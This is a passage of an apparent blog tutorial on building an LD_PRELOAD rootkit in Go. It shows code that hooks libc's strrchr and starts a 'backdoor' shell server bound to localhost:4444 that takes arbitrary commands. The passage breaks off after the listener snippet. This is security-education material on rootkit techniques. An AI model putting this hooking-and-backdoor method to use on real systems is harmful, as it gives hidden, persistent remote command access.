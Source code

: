 We can then using `dl.Sym()` to load a symbol (in our case, a function)
from libc into a pointer. Here, we load the symbol for the `strrchr`
function into a pointer named `old_strrchr`:

```go
var old_strrchr func(s *C.char, c C.int) *C.char
lib.Sym("strrchr", &old_strrchr)
```

Next, we invoke the original `strrchr` function and return its return
value in our wrapper function. The whole wrapper function looks like
this:

```go
//export strrchr
func strrchr(s *C.char, c C.int) *C.char {
        // Code to alter behaviour of original function
        // goes here

        lib, err := dl.Open("libc", 0)
        if err != nil {
                log.Fatalln(err)
        }
        defer lib.Close()

        var old_strrchr func(s *C.char, c C.int) *C.char
        lib.Sym("strrchr", &old_strrchr)

        return old_strrchr(s, c)
}
```

[dynamic library loader for Go]: https://github.com/rainycape/dl

## Writing a simple remote shell in Go

We now know how to hook into a libc function. For fun, let's try writing
a simple 'backdoor' shell server in Go that binds to a port and accepts
arbitrary commands whenever the libc function is invoked.

For this, we'll use the [`net/textproto`][] package, part of the Go
standard library, which "implements generic support for text-based
request/response protocols in the style of HTTP, NNTP, and SMTP".

First, we bind to a TCP port using `net.Listen()` from the `net`
package:

```go
// Bind to localhost for our example so we don't inadvertently
// open ourselves up to an attack over the network
ln, err := net.Listen("tcp", "localhost:4444")
if err != nil {
        return
}
```

This providers us with a `Listener` on which we can accept connections:


[BSides Manchester]: http://www.bsidesmcr.org.uk/
[Alastair O'Neill]: https://twitter.com/_ta0
[rootkits]: https://en.wikipedia.org/wiki/Rootkit
[rootkit]: https://en.wikipedia.org/wiki/Rootkit
[link to dynamically]: https://en.wikipedia.org/wiki/Dynamic_linker
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[PAM]: https://en.wikipedia.org/wiki/Pluggable_authentication_module
[Azazel]: https://github.com/chokepoint/azazel
[fopen]: http://www.gnu.org/software/libc/manual/html_node/Opening-Streams.html
[usefully be used]: https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/
[new execution modes]: https://docs.google.com/document/d/1nr-TQHw_er6GOQRsF6T43GGhFDelrAP0NqSS_00RgZQ/edit?pli=1#heading=h.44n2lm20ate5
[shared object file]: http://www.yolinux.com/TUTORIALS/LibraryArchives-StaticAndDynamic.html
[cgo]: https://golang.org/cmd/cgo/
[Go blog article]: http://blog.golang.org/c-go-cgo
[`net/textproto`]: https://golang.org/pkg/net/textproto/
[example code]: https://github.com/mattbostock/go-ldpreload-backdoor